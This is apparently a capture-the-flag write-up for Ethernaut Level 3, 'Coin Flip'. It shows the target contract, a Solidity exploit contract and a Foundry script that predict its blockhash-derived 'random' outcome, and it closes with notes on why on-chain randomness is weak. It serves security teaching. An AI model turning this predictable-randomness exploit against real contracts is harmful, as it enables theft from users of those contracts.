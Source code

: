 # Level 3 - Coin Flip ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/3" %}

### Level Setup

{% hint style="info" %}
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/CoinFlip.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
{% endcode %}

### Exploit

This exploit is possible because the coinflip isn't random but deterministic. By copying the same logic that's used to determine the result and executing it in the same block just before guessing, you can guess correctly every time.

1. Run the same calculation and use the result to call the CoinFlip contract already deployed.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level3.sol" %}

{% code title="src/Level3.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flip(address _targetContractAddress) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return ICoinFlip(_targetContractAddress).flip(side);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level3.s.sol" %}

{% code title="script/Level3.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {GetInstanceAddress} from "script/HelperFunctions.s.sol";
import {CoinFlipGuess} from "../src/Level3.sol";

interface ICoinFlip {
    function consecutiveWins() external returns (uint256);
}

contract Exploit is Script, GetInstanceAddress {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        ICoinFlip targetContract = ICoinFlip(targetContractAddress);

        if (targetContract.consecutiveWins() < 10) {
            vm.startBroadcast();

            CoinFlipGuess coinFlipGuess = new CoinFlipGuess();
            coinFlipGuess.flip(targetContractAddress);

            vm.stopBroadcast();
        } else {
            revert("Already won 10 times");
        }

        console.log("consecutiveWins: %s", targetContract.consecutiveWins());
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Notes

* The real challenge is getting the script to run 10 times.
* This was hard to do in foundry with a real blockchian, but would have been easy to test on anvil simply by advancing the block by one then calling it again.
